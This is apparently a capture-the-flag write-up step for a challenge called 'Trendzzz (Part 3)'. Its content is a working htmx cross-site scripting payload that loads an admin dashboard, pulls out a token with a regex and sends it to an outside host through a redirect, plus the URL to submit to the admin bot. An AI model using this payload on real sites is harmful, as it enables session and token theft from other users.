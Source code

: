 ## Trendzzz (Part 3)

1. Trigger XSS using htmx
2. Add payload as post

   > `<p id="x" hx-get="/superadmin/dashboard" hx-trigger="load" hx-target="#x"></p><p hx-get="/getAccessToken" hx-trigger="load delay:1s" hx-vals='js:{redirect:"http://domain?a="+x.innerHTML.match(/csc.*}/)}'></p>`

3. Submit it to bot make sure to redirect so you can get access token too.
   > `https://<Domain>/getAccessToken?redirect=/superadmin/viewpost/<post-id>`
